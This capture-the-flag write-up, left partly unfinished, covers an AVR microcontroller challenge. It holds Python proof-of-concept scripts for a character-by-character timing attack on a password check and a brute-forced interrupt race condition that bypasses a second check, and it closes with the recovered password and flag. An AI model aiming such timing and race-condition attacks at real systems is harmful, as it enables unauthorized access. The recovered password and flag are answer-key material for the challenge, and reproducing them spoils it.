 # AVR

**Problem Description:**

> We found this old terminal with access to some top secret data, but it's secured by passwords. Can you break in anyway?<br>
>
> [Attachment](./8bfc40e205d0793678e76f2610fc0a9f58159fcdcbbf3424b0538b0b019bfd50c0ddffcaeca391379f260390c90b1e4d5633acb2c334bd5f5663c4072354bb13)<br>
>
> `avr.2020.ctfcompetition.com 1337`

## Solution

As usual, I unzipped the attachment. There were a few files:

- [Makefile](./Makefile)
- [simavr_diff](./simavr_diff)
- [code.c](./code.c)
- [simduino.elf](./simduino.elf)
- [code.hex](./code.hex)

I started by taking a quick peek at `simavr_diff`:

```diff
diff --git a/examples/board_simduino/simduino.c b/examples/board_simduino/simduino.c
index 007b383..7f4fc30 100644
--- a/examples/board_simduino/simduino.c
+++ b/examples/board_simduino/simduino.c
@@ -98,7 +98,7 @@ int main(int argc, char *argv[])
 	char boot_path[1024] = "ATmegaBOOT_168_atmega328.ihex";
 	uint32_t boot_base, boot_size;
 	char * mmcu = "atmega328p";
-	uint32_t freq = 16000000;
+	uint32_t freq = 1000000;
 	int debug = 0;
 	int verbose = 0;
 
<snipped some changes, they mostly replaced loops over file descriptors to just deal with stdin/out or something>
 
--- a/examples/parts/uart_pty.h
+++ b/examples/parts/uart_pty.h
@@ -33,7 +33,7 @@ enum {
 	IRQ_UART_PTY_COUNT
 };
 
-DECLARE_FIFO(uint8_t,uart_pty_fifo, 512);
+DECLARE_FIFO(uint8_t,uart_pty_fifo, 65536);
 
 typedef struct uart_pty_port_t {
 	unsigned int	tap : 1, crlf : 1;
```

Which led me to conclude:

1. We are dealing with the `atmega328p` microcontroller.
2. The clock speed was reduced from 16Mhz to 1Mhz.
3. The `uart_pty_fifo` buffer size was changed from 512 bytes to 65536 bytes.

Then, I moved onto `code.c`

## TODO

- Talk about `code.c`

- Talk about how the first password check screamed, "Timing attack me!"

  - Clock speed reduced
  - Uptime printed
  - `strcmp` for first password vs constant time check for second password

- Talk about blessed determinism, even over network, thanks to simavr and way code was written

- Race condition:

  - Interrupts being queued during `cli()` and executed after `sei()`, if interrupt mask still allows it

  - More specifically, how breadsticks noticed queued interrupts are executed *two* instructions after `sei()`

  - Maybe, also how this doesn't make sense when looking at the [atmega328p datasheet](http://ww1.microchip.com/downloads/en/DeviceDoc/Atmel-7810-Automotive-Microcontrollers-ATmega328P_Datasheet.pdf)? Perhaps a `simavr` bug? Or datasheet error?

    > When using the SEI instruction to enable interrupts, the instruction following SEI will be executed before any pending interrupts

  - `TOIE1` not being unset when `timer_on_off(0)`, so `TIMER1_OVF_vect` can still fire after line 171

  - Coincidentally, `logged_in = 1` takes two instructions and is right after `sei()`.

- Explain [Password 1 Crack POC](#password-1-crack-poc), [Password 2 Bypass POC](#password-2-bypass-poc) and [Flag](#flag) better and move them somewhere else

## Password 1 Crack POC

We search for the password, letter by letter, using a timing attack. Thanks to how very deterministic all of this is, to find the next letter:

1. Connect and spam the current password + one more character that will 100% not be in the password (ie. `\x7f`), as many times as there are letters in the alphabet (`gen_baseline_times`)
   1. Note down the time taken for each attempt (difference in uptime)
2. Connect again and then spam current password + letter for each letter in the alphabet
   1. Note down the time taken for each attempt
3. The first letter whose time taken differs from the baseline, must be the next letter of the password

```python
def main():
    password, password_solved = "", False
    print("Finding password...")
    print("Password: ", end="")
    while not password_solved:
        letter, password_solved = timing_attack_next_char(password)
        password += letter
        print(letter, end="" if not password_solved else "\n")

def timing_attack_next_char(curr_password):
    baseline_times = gen_baseline_times(curr_password)
    msg = "\n"
    for c in map(chr, range(0x21, 0x7f)):
        msg += f"agent\n{curr_password}{c}\n"
    io = connect()
    io.send(msg)
    uptime = get_uptime(io)
    char, password_solved = None, False
    for i in range(0x21, 0x7f):
        if b"Access granted" in get_attempt_output(io):
            char, password_solved = chr(i), True
            break
        new_uptime = get_uptime(io)
        # Don't ever ask me why I am using != instead of >.
        if (new_uptime - uptime) != baseline_times[i-0x21]:
            char = chr(i)
            break
        uptime = new_uptime
    io.close()
    return char, password_solved


def gen_baseline_times(curr_password):
    msg = "\n" + f"agent\n{curr_password}\x7f\n" * (0x7f - 0x21)
    io = connect()
    io.send(msg)
    uptime = get_uptime(io)
    times = []
    for _ in range(0x21, 0x7f):
        new_uptime = get_uptime(io)
        times.append(new_uptime - uptime)
        uptime = new_uptime
    io.close()
    return times
```

## Password 2 Bypass POC

Instead of trying to do any meaningful calculations, to work out the timing required to trigger the race condition, we just brute force :stuck_out_tongue:

```python
def main():
    print("Trying to trigger race condition by padding newlines before login...")
    flag, num_pads = "", 0
    while not flag:
        print(".", end="")
        msg = "\n"*(num_pads+1)+f"agent\n{password}\n"
        io = connect()
        io.send(msg)
        if b"on" in get_post_login_timer_status(io):
            print(f"\nRace condition triggered using {num_pads} padding newlines.")
            flag = get_flag(io).decode()
        io.close()
        num_pads += 1
    print(f"Flag: {flag}")
```

## Flag

```bash
$ python3 solve.py --remote
Finding password...
Password: doNOTl4unch_missi1es!
Trying to trigger race condition by padding newlines before login...
........................................................................................................................................................................................................................................................................
Race condition triggered using 263 padding newlines.
Flag: CTF{1nv1sibl3_sei_r4c3_c0ndi7i0n}
```


